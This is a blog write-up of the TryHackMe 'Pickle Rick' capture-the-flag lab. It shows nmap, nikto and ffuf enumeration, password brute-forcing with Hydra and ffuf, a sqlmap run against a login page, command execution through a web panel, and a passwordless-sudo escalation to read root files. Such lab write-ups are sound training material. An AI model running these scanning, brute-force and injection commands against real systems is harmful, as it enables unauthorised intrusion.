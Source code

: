 ```yaml
---
layout: post
title: TryHackMe Pickle Rick CTF
---
```

## Introduction
Pickle Rick is a beginner CTF on [TryHackMe](https://tryhackme.com/room/picklerick) that requires exploiting a webserver to find three ingredients to turn Rick from a pickle back into a human.

## Enumeration
First, I ran an nmap scan, -sC to run default scripts, -sV to gather service/version info and -oA to save output in all formats:
```bash
nmap -sC -sV 10.10.222.173 -oA nmap
```
Results:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-20 14:07 GMT
Nmap scan report for 10.10.222.173
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7e:b9:b5:fe:d5:e4:5e:44:ec:4a:49:a6:2c:22:96:62 (RSA)
|   256 2e:52:31:22:84:66:f0:35:0a:ec:ae:f9:6d:f1:3d:b2 (ECDSA)
|_  256 3a:9a:14:12:7f:59:df:ed:bf:3b:93:f9:b0:88:7b:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.34 seconds
```

At the same time I also ran a nikto scan:
```bash
nikto -h http://10.10.222.173
```

And fuzzed for directories with FFuF:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.222.173/FUZZ
```

## The username
I then took a look at what was running on port 80 in a web browser, at the same time I spidered the site with OWASP ZAP. The home page was a static page with no visible links, but viewing the source revealed a username:
```html
	<!--

		Note to self, remember username!

		Username: REDACTED

	-->
```

With this username I tried to bruteforce SSH with Hydra, but password authentication was not supported. 
```bash
hydra -l REDACTED -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt 10.10.222.173 ssh
```
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-20 18:26:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1049 login tries (l:1/p:1049), ~66 tries per task
[DATA] attacking ssh://10.10.222.173:22/
[ERROR] target ssh://10.10.222.173:22/ does not support password authentication (method reply 4).
```

At this point though, Nikto had discovered /login.php.

The first FFuF scan did not turn up much other than an assets folder which was not very interesting, I ran another scan for files.
```bash
ffuf -u http://10.10.222.173/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt -o ffuf-php-raft-large
```

## The login page
Then I took a look at the login page:

![Pickle Rick Portal Login Page](/assets/images/pickle-rick-login.png)

Firstly, I ran sqlmap:
```bash
sqlmap -u http://10.10.222.173/login.php --data="username=REDACTED&password=a&sub=Login" --method POST --batch
```
Result:
```
[18:39:33] [CRITICAL] all tested parameters do not appear to be injectable.
Try to increase values for '--level'/'--risk' options if you wish to perform more tests. 
If you suspect that there is some kind of protection mechanism involved (e.g. WAF) 
maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') 
and/or switch '--random-agent'
```

I also brute forced the password with FFuF and rockyou.txt:
```bash
ffuf -u http://10.10.222.173/login.php -X POST -d "username=REDACTED&password=FUZZ&sub=Login" -w /usr/share/wordlists/rockyou.txt -fs 882
```

## The password
While they are running in the background I checked the spider I ran in ZAP, robots.txt contained a Rick and Morty phrase that turned out to be the password for our earlier found username on the login.php page.

## The ingredients
![Pickle Rick Command Panel](/assets/images/pickle-rick-command-panel.png)

Logging in presented a "Command Panel" where I could run commands on the webserver. The file listing included Sup3rS3cretPickl3Ingred.txt. `cat` was disbabled, instead I used `less` to get the first ingredient.

`less Sup3rS3cretPickl3Ingred.txt`

`less clue.txt` revealed "Look around the file system for the other ingredient."

I took a look in the home directory, found a rick directory, found the second ingredient file and used `less` again to reveal the second ingredient.

`less '/home/rick/second ingredients'`

I ran `sudo -l` and discovered I could run any command as root without a password. I took a look in the /root directory, found 3rd.txt and used  `less` again to get the final ingredient.

```bash
sudo -l
sudo ls -la /root
sudo less /root/3rd.txt
```

<div style="text-align:center;">
	<h2>Find me on TryHackMe:</h2>
	<a href="https://tryhackme.com/p/clars"><img src="https://tryhackme-badges.s3.amazonaws.com/clars.png" alt="TryHackMe"></a>
</div>
